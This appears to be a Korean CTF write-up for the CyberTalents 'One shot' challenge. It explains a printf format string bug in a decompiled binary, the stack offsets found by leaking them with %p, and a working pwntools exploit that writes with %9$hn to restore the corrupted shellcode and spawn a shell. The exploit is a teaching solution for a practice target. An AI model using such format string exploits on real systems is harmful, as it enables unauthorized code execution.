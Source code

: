 ```yaml
---
title: "CyberTalents One shot"
date: 2020-1-8
tags: [CyberTalents]
categories: [CyberTalents]
---
```


메인은 간단하게 addr은 mmap으로 `0xF77FF000` 주소에 값을 메모리 매핑해주고 그 주소에서 mprotect로 권한을 준다. 그리고 `strncpy` 함수로 shellcode를 addr에 shellcode 길이만큼 복사해준다. 

근데 addr 참조한 곳에 첫번째를 1로 바꾸고 다음 주소를 2로 바꿔준다.

그리고 밑에서는 s변수에 입력받고 `pritnf(&s);` 해주는데 이곳에서 fsb가 터진다. 

밑에서 이 addr을 실행해주는데 shellcode를 보면 쉘을 띄워주는 쉘코드가 들어있다.

`*addr =1 ` , `*addr[1] = 2` 이런식으로 되어있어서 shellcode를 실행해도 쉘이 안 뜬다.

그래서 이곳을 fsb를 이용해서 원래 쉘코드로 바꿔주면 된다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // eax
  _BYTE *addr; // [esp+14h] [ebp-114h]
  int v6; // [esp+18h] [ebp-110h]
  char s; // [esp+1Ch] [ebp-10Ch]
  unsigned int v8; // [esp+11Ch] [ebp-Ch]

  v8 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  addr = mmap(0xF77FF000, 0x20u, 0, 34, 0, 0);
  v6 = mprotect(addr, 32u, 7);
  if ( addr == -1 || v6 == -1 )
  {
    puts("mmap() or mprotect() failed. Please contact admin.");
    exit(-1);
  }
  v3 = strlen(shellcode);
  strncpy(addr, shellcode, v3);
  *addr = 1;
  addr[1] = 2;
  printf("you have only one shot: ");
  fgets(&s, 255, stdin);
  printf(&s);
  (addr)();
  return 0;
}
```

shellcode는 이렇게 박혀있다.

![](https://user-images.githubusercontent.com/32904385/71976142-f3fa4f00-3258-11ea-8393-d89960dd8f19.png)

strncpy 전에 보면 아까 매핑했던 주소에 `0xf77ff000` 이렇게 매핑되어있는 것을 볼 수 있다.

![](https://user-images.githubusercontent.com/32904385/71976145-f492e580-3258-11ea-8001-5b293be0ecb0.png)

그리고 strncpy 이후 보면 이런식으로 shellcode가 들어간 것을 볼 수 있다.

![](https://user-images.githubusercontent.com/32904385/71976146-f5c41280-3258-11ea-9284-41e7f301f8a4.png)

`*addr = 1` , `*addr[1] = 2` 을 실행한 후 주소에 매핑된 값을 보면 이렇게 1과2가 들어간게 보인다.

![](https://user-images.githubusercontent.com/32904385/71976148-f65ca900-3258-11ea-965f-e460b3678a83.png)

fgets에서 `AAAA %p %p %p %p %p %p %p %p %p %p %p %p` 이렇게 넣으면 `printf(&s)` 에서 `AAAA 0xff 0xf7fbf5a0 (nil) 0xffffd2c4 0xffffd2c0 0x3 0xffffd444 0xf7ffd000 0xf77ff000 (nil) 0x41414141`

이렇게 출력되는데 buf는 offset 11 (esp + 44)위치에 있고 offset 9 (esp + 36)를 보면 `0xf77ff000` 가 있다. 

이 주소에 값을 덮어쓰면 shellcode를 실행할때 제대로 쉘을 띄울 수 있을 것이다. 

![](https://user-images.githubusercontent.com/32904385/71976150-f78dd600-3258-11ea-9af3-67fa07871348.png)

그냥 gdb로 잘 보면 풀리는 문제였다 ㅎㅎ...

> exploit.py

```python
from pwn import *

e = ELF('./oneshot')
p = process('./oneshot')
#p = remote('35.222.174.178',31339)

payload = '%{}c'.format(0xc031)
payload += '%9$hn'

p.sendlineafter(':',payload)

p.interactive()
```

